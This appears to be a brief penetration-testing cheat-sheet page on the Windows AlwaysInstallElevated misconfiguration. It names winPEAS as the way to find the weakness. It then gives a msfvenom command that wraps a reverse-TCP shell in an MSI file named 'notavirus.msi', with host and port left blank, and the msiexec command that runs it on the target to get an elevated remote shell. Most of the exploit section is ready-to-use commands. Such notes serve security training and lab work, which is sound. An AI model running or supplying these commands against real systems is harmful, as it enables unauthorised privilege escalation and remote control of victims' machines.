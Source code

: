 # AlwaysInstallElevated

### Identifying

Running winpeas gives an output like this

![](<../.gitbook/assets/image (1) (1) (1) (1) (1).png>)

### Exploiting

#### _Step1_

Create a msi exe using msfvenom

_`msfvenom -p windows/x64/shell_reverse_tcp LHOST= LPORT= -f msi > notavirus.msi`_

_\`\`_

#### _Step2_

Transfer it to windows and run it after setting up a listener

_`msiexec /i "C:\Users\Phoebe\Desktop\notavirus.msi"`_

